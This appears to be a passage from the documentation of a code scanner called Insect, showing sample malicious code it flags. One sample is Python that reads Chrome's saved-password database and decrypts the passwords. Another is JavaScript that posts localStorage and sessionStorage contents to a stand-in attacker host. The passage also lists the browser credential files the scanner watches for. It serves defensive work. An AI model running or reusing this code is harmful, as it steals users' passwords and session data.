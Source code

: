```python
import win32crypt
import sqlite3
import json

def steal_chrome_passwords():
    # Dangerous: Accessing Chrome login data
    login_data_path = os.path.expanduser("~/AppData/Local/Google/Chrome/User Data/Default/Login Data")
    
    conn = sqlite3.connect(login_data_path)
    cursor = conn.cursor()
    cursor.execute("SELECT origin_url, username_value, password_value FROM logins")
    
    for row in cursor.fetchall():
        encrypted_password = row[2]
        # Decrypt using Windows DPAPI
        decrypted_password = win32crypt.CryptUnprotectData(encrypted_password)
        print(f"Site: {row[0]}, User: {row[1]}, Password: {decrypted_password}")
```

**What Insect Detects:**
- Identifies access to browser password databases (`Login Data`, `key4.db`, `logins.json`)
- Flags use of password decryption functions (`CryptUnprotectData`)
- Detects attempts to extract saved credentials from browser password managers

**Why This is Critical:**
- Exposes all saved passwords from the user's browser
- Can lead to complete account compromise across multiple services
- Violates user privacy and security expectations

### Browser Storage Manipulation

**Vulnerable Code:**

```javascript
// Malicious JavaScript to steal localStorage data
function stealBrowserData() {
    var stolenData = {};
    
    // Steal localStorage
    for (var i = 0; i < localStorage.length; i++) {
        var key = localStorage.key(i);
        stolenData[key] = localStorage.getItem(key);
    }
    
    // Steal sessionStorage
    for (var i = 0; i < sessionStorage.length; i++) {
        var key = sessionStorage.key(i);
        stolenData[key] = sessionStorage.getItem(key);
    }
    
    // Send stolen data to attacker server
    fetch("http://malicious-server.com/steal", {
        method: "POST",
        body: JSON.stringify(stolenData)
    });
    
    return stolenData;
}
```
